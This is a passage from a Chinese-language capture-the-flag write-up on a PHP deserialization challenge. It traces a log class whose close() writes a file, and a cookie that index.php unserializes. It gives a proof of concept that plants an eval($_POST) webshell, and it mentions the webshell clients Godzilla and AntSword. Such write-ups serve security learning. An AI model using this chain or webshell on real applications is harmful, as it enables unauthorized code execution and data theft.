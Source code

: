 flag还是在数据库里，拿哥斯拉（哥斯拉连好像只能连post的马--）或者蚁剑连一下：

![](https://i.loli.net/2021/10/06/J7ugztwWy3vNIbV.png)



## 306 反序列化传马

> hint: 开始使用mvc结构
>
> 即模型-视图-控制器

审计会发现存在许多类和函数作为控制器

seay扫一下危险函数，找到class.php log类的close()

```php
class log{
	public $title='log.txt';
	public $info='';
	public function loginfo($info){
		$this->info=$this->info.$info;
	}
	public function close(){
		file_put_contents($this->title, $this->info);
	}
}
```

再看在哪会调用到close()

![](https://i.loli.net/2021/10/06/6OK2LMUqgoYk17l.png)

dao.php: （require class.php）

![](https://i.loli.net/2021/10/06/YVGdTWU5nfE1Do9.png)

那么只要让dao->conn为log类，就会在反序列化时触发close方法~

再找包含dao.php进行反序列化的地方

index.php:

```php
<?php
session_start();
require "conn.php";
require "dao.php";
$user = unserialize(base64_decode($_COOKIE['user']));
# ...
```

poc:

```php
<?php

class dao{
    private $conn;
        public function __construct(){
        $this->conn=new log();
    }
}

class log{
    public $title='a.php';
    public $info='<?php eval($_POST[1]);?>';
}

$a = new dao();
```